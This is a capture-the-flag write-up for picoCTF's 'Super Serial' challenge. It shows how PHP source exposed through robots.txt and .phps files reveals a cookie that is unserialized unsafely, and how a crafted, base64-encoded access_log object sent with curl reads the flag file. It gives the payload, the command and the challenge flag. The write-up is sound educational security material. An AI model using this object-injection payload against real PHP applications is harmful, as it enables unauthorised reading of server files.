


# Super Serial
Author: dch0017

## Challenge Description
Try to recover the flag stored on this website

## Accessing Site
Getting onto the site we see a  basic login page: </br>

</br>

## Digging Around
We look around at sources to see if anything sticks out at first and nothing comes up.

Let's try to do a login with a test username of ```admin``` and password of ```password```.

We do get an error message but all it gives us is ```Invalid Login```. But we are at ```index.php``` now. So now we know this is running PHP, let's poke around in the cookies.

## Cookies
In the Chrome dev console, we see that we have 2 cookies. A  ```auth_name``` and a ```PHPSESSID```.  The ```PHPSESSID``` is the default name set by PHP that tracks session. If we had an authenticated session we may be able to use that or the ```auth_name``` cookies, but for now we keep browsing.

## Robots
Now we're over on the ```robots.txt``` and I really should have checked here sooner (automatic web scraper coming soon). The contents are:
```
User-agent: *
Disallow: /admin.phps
```

Short but gives us a lot of information. ```PHPS``` files will give us the source code to a PHP file. So let's try to browse to ```/admin.phps```

## PHPS

</br>

No luck here, but if we look back the login page was an ```index.php``` so let's try browsing to ```index.phps``` and (I removed the HTML at the bottom of the .phps file to shorten):
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

## Deeper into PHP
Quickly running through the PHP of ```index.phps```: cookies.php is imported, then a connection is made to a SQLite3 db called ```users.db```. The ```$username``` and ```$password``` inputted by us is then compared to the functions ```is_guest()``` and ```is_admin()``` in the ```cookie.php``` file. If either of those return true, our ```login``` cookie is reset (by serializing, base64 encoding, and then url encoding our username + combo) and our header will change to the output of ```authentication.php```.

## Authentication.phps
Let's try to browser over to the authentication phps file and see what we get (again HTML removed):
```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
A few things stick out, one we should be able to just go straight to ```authentication.php``` and see the Welcome guest page, as there is no check for guests.</br>

</br>

Secondly, we can see that we have a ```read_log()``` function which is called by another ```__toString()``` function to return the output of a specified file. According to the hint from the challenge our flag is located at ```../flag```.

## Serialization
The crucial part to this challenge is found in the ```cookie.phps``` file. At the end we see this:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
If a cookie named ```login``` is passed in, it will try to unpack that cookie (by base64 decoding, then unserializing) and checking it against ```is_guest()``` and ```is_admin()```. But if it fails it will catch the error and prints the unserialized variable.</br>

A good article for serialization and what I based my next steps off can be found here on [Medium by Vickie Li](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)</br>

## Generating Serialized String
When we first browsed the ```authentication.phps``` file we saw that on a successful admin login, a new instance of the ```access_log``` class was initiated with a ```access.log``` file. The ```access_log``` class also has a ```__toString()``` method which outputs the contents of the file.

Using the article above, we create a serialized object that references an instance of ```access_log``` but has our flag file ```../flag``` as the log file it references. Following the steps we get:

```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Now to just base64 encode our string (from cyberchef) we get:
```TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9```

## CURL with Cookie
Finally let's pass our newly generated string over to ```authentication.php``` as the ```login``` cookie.:

```console
PS C:\temp\picoCTF\Web Exploitation\Super Serial> curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
